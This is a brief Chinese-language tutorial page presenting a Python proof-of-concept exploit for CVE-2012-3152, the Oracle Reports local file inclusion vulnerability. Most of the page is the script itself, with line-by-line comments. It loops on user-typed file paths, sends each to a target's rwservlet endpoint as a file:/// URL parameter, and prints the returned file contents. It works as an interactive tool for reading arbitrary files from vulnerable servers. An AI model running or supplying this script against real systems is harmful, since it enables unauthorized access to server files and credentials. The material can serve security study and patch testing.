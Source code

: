 # CVE-2012-3152


---

这一小段代码是演示的CVE-2012-3152 Oracle本地文件包含的漏洞利用PoC,与前一个PoC示例有点类似，也是通过循环可以无限输入需要访问文件目录。对于下面这一段脚本无前面有点不同。增加了一点交互性的东西。通过[termcolor](https://pypi.python.org/packages/source/t/termcolor/termcolor-1.1.0.tar.gz)模块来实现:

```
#!/usr/bin/python
import sys, urllib2    # 导入需要的包
from termcolor import colored   # 这里需要下载"termcolor"模块

if len(sys.argv) != 2:    # 检查输入的格式是否正确"<script> <URL>"
  print "Usage: "+sys.argv[0]+" <URL>"
  sys.exit(0)

URL=sys.argv[1]        # 输出测试的URL
print "[+] Attempting CVE-2012-3152 - Oracle Reports LFI"

while True:        #  循环开始时先输出 "~$ " 然后通过"raw_input"获取要执行的命令
  resource=raw_input(colored("~$ ", "red"))
  req = '/reports/rwservlet?report=test.rdf+desformat=html+destype=cache+JOBTYPE=rwurl+URLPARAMETER="file:///'+resource+'"'
  try:                    # 使用Try/Except处理响应信息
    response=urllib2.urlopen(URL+req)
    # 发起请求并且显示响应内容
    for line in response.readlines():
      print line.strip()
  except Exception as e: print e
```
  ![oracle](img/0x15.png)